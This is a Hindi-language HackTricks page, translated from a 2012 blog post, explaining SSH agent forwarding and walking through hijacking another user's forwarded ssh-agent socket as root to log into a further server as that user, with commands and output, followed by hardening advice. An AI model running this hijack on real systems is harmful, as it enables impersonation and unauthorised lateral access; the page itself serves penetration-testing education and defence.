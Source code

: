 <details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें.

</details>


# सारांश

यदि आप `/etc/ssh_config` या `$HOME/.ssh/config` कॉन्फ़िगरेशन में यह खोजते हैं तो आप क्या कर सकते हैं:
```
ForwardAgent yes
```
यदि आप मशीन के अंदर रूट हैं तो आप शायद **किसी भी ssh कनेक्शन तक पहुँच सकते हैं जो किसी भी एजेंट द्वारा बनाया गया हो** जिसे आप _/tmp_ डायरेक्टरी में पा सकते हैं

बॉब के एक ssh-agent का उपयोग करके बॉब की नकल करें:
```bash
SSH_AUTH_SOCK=/tmp/ssh-haqzR16816/agent.16816 ssh bob@boston
```
## यह काम क्यों करता है?

जब आप `SSH_AUTH_SOCK` वेरिएबल सेट करते हैं, तो आप बॉब की चाबियों को एक्सेस कर रहे होते हैं जो उसके SSH कनेक्शन में इस्तेमाल की गई हैं। फिर, अगर उसकी प्राइवेट की अभी भी वहां है (आमतौर पर होगी), तो आप इसका इस्तेमाल करके किसी भी होस्ट तक पहुंच सकते हैं।

चूंकि प्राइवेट की एजेंट की मेमोरी में अनक्रिप्टेड सेव होती है, मैं मानता हूं कि अगर आप बॉब हैं लेकिन आपको प्राइवेट की का पासवर्ड नहीं पता, तो भी आप एजेंट को एक्सेस कर सकते हैं और इसका इस्तेमाल कर सकते हैं।

एक और विकल्प यह है कि एजेंट का मालिक और रूट एजेंट की मेमोरी तक पहुंच सकते हैं और प्राइवेट की निकाल सकते हैं।

# विस्तृत व्याख्या और शोषण

**स्रोत से लिया गया:** [**https://www.clockwork.com/news/2012/09/28/602/ssh\_agent\_hijacking/**](https://www.clockwork.com/news/2012/09/28/602/ssh\_agent\_hijacking/)

## **जब ForwardAgent पर भरोसा नहीं किया जा सकता**

Unix जैसे ऑपरेटिंग सिस्टम्स के साथ जीवन बिना पासवर्ड के SSH के साथ बहुत आसान हो जाता है। अगर आपके नेटवर्क को श्रृंखलित SSH सत्रों की आवश्यकता है (एक प्रतिबंधित नेटवर्क तक पहुंचने के लिए, उदाहरण के लिए), तो एजेंट फॉरवर्डिंग बेहद मददगार होती है। एजेंट फॉरवर्डिंग के साथ मैं अपने लैपटॉप से मेरे डेव सर्वर तक कनेक्ट कर सकता हूं और वहां से एक और सर्वर से SVN चेकआउट चला सकता हूं, सभी बिना पासवर्ड के, जबकि मेरी प्राइवेट की मेरे स्थानीय वर्कस्टेशन पर सुरक्षित रहती है।

हालांकि, यह खतरनाक भी हो सकता है। एक त्वरित वेब सर्च से कई लेख मिलेंगे जो इंगित करते हैं कि यह केवल तभी सुरक्षित है जब मध्यवर्ती होस्ट विश्वसनीय हों। दुर्लभता से, हालांकि, आपको यह समझाने वाला विवरण मिलेगा कि _क्यों_ यह खतरनाक है।

यही इस लेख के लिए है। लेकिन पहले, कुछ पृष्ठभूमि।

## **कैसे पासवर्डलेस प्रमाणीकरण काम करता है**

सामान्य मोड में प्रमाणीकरण करते समय, SSH आपके पासवर्ड का इस्तेमाल करता है यह साबित करने के लिए कि आप वही हैं जो आप कहते हैं। सर्वर इस पासवर्ड के हैश की तुलना उसके पास मौजूद हैश से करता है, हैश की पुष्टि करता है, और आपको अंदर आने देता है।

अगर हमलावर आपके पासवर्ड को सुरक्षित करने के लिए इस्तेमाल किए गए एनक्रिप्शन को तोड़ने में सक्षम होता है, जबकि यह सर्वर को भेजा जा रहा होता है, तो वे इसे चुरा सकते हैं और जब चाहें आपके रूप में लॉग इन कर सकते हैं। अगर हमलावर को सैकड़ों हजारों प्रयास करने की अनुमति दी जाती है, तो वे अंततः आपके पासवर्ड का अनुमान लगा सकते हैं।

एक बहुत सुरक्षित प्रमाणीकरण विधि है [पब्लिक की प्रमाणीकरण](http://www.ibm.com/developerworks/library/l-keyc/index.html), एक तरीका बिना पासवर्ड के लॉग इन करने का। पब्लिक की प्रमाणीकरण के लिए एक मिलान किए गए जोड़े की पब्लिक और प्राइवेट कीज़ की आवश्यकता होती है। पब्लिक की संदेशों को एनक्रिप्ट करती है जिन्हें केवल प्राइवेट की के साथ डिक्रिप्ट किया जा सकता है। दूरस्थ कंप्यूटर आपको एक गुप्त संदेश भेजने के लिए आपकी पब्लिक की की प्रति का इस्तेमाल करता है। आप यह साबित करते हैं कि आप आप हैं अपनी प्राइवेट की का इस्तेमाल करके संदेश को डिक्रिप्ट करके और संदेश को वापस दूरस्थ कंप्यूटर को भेजकर। आपकी प्राइवेट की पूरे समय आपके स्थानीय कंप्यूटर पर सुरक्षित रहती है, हमले से सुरक्षित।

प्राइवेट की मूल्यवान होती है और इसे सुरक्षित रखना चाहिए, इसलिए डिफ़ॉल्ट रूप से यह एनक्रिप्टेड फॉर्मेट में स्टोर की जाती है। दुर्भाग्यवश इसका मतलब है कि इसका इस्तेमाल करने से पहले आपको अपने एनक्रिप्शन पासफ्रेज़ दर्ज करना होगा। कई लेख सुझाव देते हैं कि इस असुविधा से बचने के लिए पासफ्रेज़-लेस (अनएनक्रिप्टेड) प्राइवेट कीज़ का इस्तेमाल करें। यह एक बुरा विचार है, क्योंकि अब आपके वर्कस्टेशन तक पहुंच वाला कोई भी (भौतिक पहुंच, चोरी, या हैकरी के माध्यम से) आपकी पब्लिक की के साथ कॉन्फ़िगर किए गए किसी भी कंप्यूटर तक मुफ्त पहुंच भी प्राप्त कर सकता है।

OpenSSH में [ssh-agent](http://www.openbsd.org/cgi-bin/man.cgi?query=ssh-agent) शामिल है, एक डेमन जो आपके स्थानीय वर्कस्टेशन पर चलता है। यह आपकी प्राइवेट की की एक डिक्रिप्टेड कॉपी को मेमोरी में लोड करता है, ताकि आपको अपना पासफ्रेज़ केवल एक बार दर्ज करना पड़े। फिर यह एक स्थानीय [सॉकेट](http://en.wikipedia.org/wiki/Unix\_domain\_socket) प्रदान करता है जिसका इस्तेमाल SSH क्लाइंट इससे दूरस्थ सर्वर द्वारा भेजे गए एनक्रिप्टेड संदेश को डिक्रिप्ट करने के लिए कर सकता है। आपकी प्राइवेट की ssh-agent प्रक्रिया की मेमोरी में सुरक्षित रहती है जबकि फिर भी आपको पासवर्ड टाइप किए बिना SSH करने की अनुमति देती है।

## **ForwardAgent कैसे काम करता है**

कई कार्यों के लिए "श्रृंखलित" SSH सत्रों की आवश्यकता होती है। मेरे पहले के उदाहरण पर विचार करें: मैं अपने वर्कस्टेशन से डेव सर्वर तक SSH करता हूं। वहां, मुझे एक SVN अपडेट करने की आवश्यकता है, "svn+ssh" प्रोटोकॉल का उपयोग करते हुए। चूंकि यह मूर्खतापूर्ण होगा कि मेरी सुपर-सीक्रेट प्राइवेट की की एक अनएनक्रिप्टेड कॉपी को एक साझा सर्वर पर छोड़ दिया जाए, मैं अब पासवर्ड प्रमाणीकरण के साथ फंस गया हूं। हालांकि, अगर मैंने अपने वर्कस्टेशन पर SSH कॉन्फ़िग में "ForwardAgent" सक्षम किया है, तो SSH अपनी बिल्ट-इन टनलिंग क्षमताओं का
```
mylaptop:~ env|grep SSH_AUTH_SOCK
SSH_AUTH_SOCK=/tmp/launch-oQKpeY/Listeners

mylaptop:~ ls -l /tmp/launch-oQKpeY/Listeners
srwx------  1 alice  wheel  0 Apr  3 11:04 /tmp/launch-oQKpeY/Listeners
```
[ssh-add](http://www.openbsd.org/cgi-bin/man.cgi?query=ssh-add) कार्यक्रम हमें एजेंट में कुंजियों को देखने और उनके साथ बातचीत करने देता है:
```
mylaptop:~ alice$ ssh-add -l
2048 2c:2a:d6:09:bb:55:b3:ca:0c:f1:30:f9:d9:a3:c6:9e /Users/alice/.ssh/id_rsa (RSA)
```
मेरे लैपटॉप पर \~/.ssh/config में "ForwardAgent yes" है। इसलिए ssh एक टनल बनाएगा जो लोकल सॉकेट को रिमोट सर्वर पर एक लोकल सॉकेट से जोड़ेगा:
```
mylaptop:~ alice$ ssh seattle

seattle:~ $ env|grep SSH_AUTH_SOCK
SSH_AUTH_SOCK=/tmp/ssh-WsKcHa9990/agent.9990
```
भले ही मेरी कुंजियाँ "seattle" पर स्थापित नहीं हैं, ssh क्लाइंट प्रोग्राम अभी भी मेरी स्थानीय मशीन पर चल रहे एजेंट तक पहुँच सकते हैं:
```
seattle:~ alice $ ssh-add -l
2048 2c:2a:d6:09:bb:55:b3:ca:0c:f1:30:f9:d9:a3:c6:9e /Users/alice/.ssh/id_rsa (RSA)
```
तो... हम किसके साथ छेड़छाड़ कर सकते हैं?
```
seattle:~ alice $ who
alice   pts/0        2012-04-06 18:24 (office.example.com)
bob     pts/1        2012-04-03 01:29 (office.example.com)
alice   pts/3        2012-04-06 18:31 (office.example.com)
alice   pts/5        2012-04-06 18:31 (office.example.com)
alice   pts/6        2012-04-06 18:33 (office.example.com)
charlie pts/23       2012-04-06 13:10 (office.example.com)
charlie pts/27       2012-04-03 12:32 (office.example.com)
bob     pts/29       2012-04-02 10:58 (office.example.com)
```
मुझे बॉब कभी पसंद नहीं आया। उसके एजेंट कनेक्शन को ढूँढने के लिए, मुझे उसके ssh सत्रों में से एक की चाइल्ड प्रोसेस को खोजना होगा:
```
seattle:~ alice $ sudo -s
[sudo] password for alice:

seattle:~ root # pstree -p bob
sshd(16816)───bash(16817)

sshd(25296)───bash(25297)───vim(14308)
```
कई तरीके हैं जिनसे root एक चल रही प्रक्रिया के वातावरण को देख सकता है। Linux पर, डेटा /proc/\<pid>/environ में उपलब्ध है। चूंकि यह NULL-terminated स्ट्रिंग्स में संग्रहीत होता है, मैं tr का उपयोग करके NULLs को नई पंक्तियों में बदलूंगा:
```
seattle:~ root # tr '' 'n' < /proc/16817/environ | grep SSH_AUTH_SOCK
SSH_AUTH_SOCK=/tmp/ssh-haqzR16816/agent.16816
```
मेरे पास अब बॉब के ssh-agent को हाईजैक करने के लिए जरूरी सभी जानकारी है:
```
seattle:~ root # SSH_AUTH_SOCK=/tmp/ssh-haqzR16816/agent.16816 ssh-add -l
2048 05:f1:12:f2:e6:ad:cb:0b:60:e3:92:fa:c3:62:19:17 /home/bob/.ssh/id_rsa (RSA)
```
```markdown
यदि मेरे पास कोई विशेष लक्ष्य है, तो मुझे अब सीधे जुड़ने में सक्षम होना चाहिए। अन्यथा, केवल प्रक्रिया सूची को देखना या बॉब की हिस्ट्री फाइल के माध्यम से grepping करना अवसर के कई लक्ष्य प्रस्तुत करना चाहिए। इस मामले में, मुझे पता है कि बॉब ने “boston” नामक सर्वर पर सभी प्रकार की अति गुप्त फाइलें संग्रहीत की हैं:
```
```
seattle:~ root # SSH_AUTH_SOCK=/tmp/ssh-haqzR16816/agent.16816 ssh bob@boston
bob@boston:~$ whoami
bob
```
मैंने "सिएटल" पर अपने रूट विशेषाधिकारों का उपयोग करके "बोस्टन" पर बॉब के रूप में पहुँच सफलतापूर्वक प्राप्त की है। मुझे यकीन है कि मैं इसका उपयोग करके उसे नौकरी से निकाल सकता हूँ।

## **अपनी सुरक्षा करें!**

अपने ssh-agent को अनिश्चितकाल के लिए आपकी कुंजियों को संग्रहीत न होने दें। OS X पर, अपने Keychain को निष्क्रियता के बाद या जब आपकी स्क्रीन लॉक हो तो लॉक करने के लिए कॉन्फ़िगर करें। अन्य Unix-युक्त प्लेटफार्मों पर, ssh-agent को -t विकल्प के साथ पास करें ताकि इसकी कुंजियाँ  सेकंड के बाद हटा दी जाएंगी।

अविश्वसनीय होस्ट्स से जुड़ते समय एजेंट फॉरवर्डिंग को सक्षम न करें। सौभाग्य से, \~/.ssh/config सिंटैक्स इसे काफी सरल बनाता है:
```
Host trustworthyhost
ForwardAgent yes
```

```
Host *
ForwardAgent no
```
## **अनुशंसित पठन**

* [OpenSSH कुंजी प्रबंधन](http://www.ibm.com/developerworks/library/l-keyc/index.html) – डैनियल रॉबिन्स
* [SSH एजेंट फॉरवर्डिंग के लिए चित्रित मार्गदर्शिका](http://www.unixwiz.net/techtips/ssh-agent-forwarding.html) – स्टीव फ्रीडल
* [ssh-agent मैनुअल](http://www.openbsd.org/cgi-bin/man.cgi?query=ssh-agent)
* [ssh-add मैनुअल](http://www.openbsd.org/cgi-bin/man.cgi?query=ssh-add)


<details>

<summary><strong>AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा संग्रह विशेष [**NFTs**](https://opensea.io/collection/the-peass-family)
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>
